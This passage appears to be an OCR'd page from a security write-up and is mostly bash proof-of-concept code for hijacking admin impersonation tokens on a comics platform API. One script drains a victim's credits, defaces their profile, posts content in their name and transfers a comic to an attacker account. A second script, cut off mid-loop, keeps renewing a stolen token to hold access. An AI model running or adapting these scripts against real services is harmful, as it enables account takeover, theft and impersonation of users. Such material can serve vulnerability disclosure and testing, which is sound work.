 ```bash
  done
  
  wait
  echo "[SUCCESS] Drained ${BALANCE} panels from victim's account"
fi

# Step 6: Modify victim's profile
echo "[+] Modifying victim's profile..."
curl -s -X PUT "${TARGET_API}/api/user/profile" \
  -H "Authorization: Bearer ${VICTIM_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "display_name": "HACKED",
    "bio": "This account was compromised via impersonation token hijacking"
  }'

# Step 7: Create offensive content under victim's name
echo "[+] Creating offensive content..."
curl -s -X POST "${TARGET_API}/api/comics" \
  -H "Authorization: Bearer ${VICTIM_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "title": "Unauthorized Comic",
    "description": "Created by attacker during impersonation attack",
    "pages": []
  }'

# Step 8: Transfer resources to attacker account (if possible)
echo "[+] Attempting resource transfer..."
curl -s -X POST "${TARGET_API}/api/comics/123/transfer" \
  -H "Authorization: Bearer ${VICTIM_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{"target_user_id": "attacker-user-id"}'

echo "[+] Attack complete. Data saved to exfiltrated_data/"
echo "[+] Summary:"
echo "  - Comics exfiltrated: ${COMIC_COUNT}"
echo "  - Credits drained: ${BALANCE}"
echo "  - Profile modified: Yes"
echo "  - Offensive content created: Yes"
```

**Step 4: Maintain Persistent Access**
```bash
#!/bin/bash
# impersonation_persistence.sh

STOLEN_TOKEN="uuid.secret"
TARGET_API="https://api.example.com"
PERSISTENCE_LOG="persistence.log"

echo "[+] Starting persistent impersonation attack..."

# Keep renewing access every 5 minutes (before 15-minute expiration)
while true; do
  TIMESTAMP=$(date '+%Y-%m-%d %H:%M:%S')
  
  # Exchange token
  VICTIM_TOKEN=$(curl -s -X POST \
    "${TARGET_API}/api/impersonation/exchange" \
    -H "x-admin-impersonation-token: ${STOLEN_TOKEN}" | \
    jq -r '.token')
  
  if [ ! -z "$VICTIM_TOKEN" ] && [ "$VICTIM_TOKEN" != "null" ]; then
```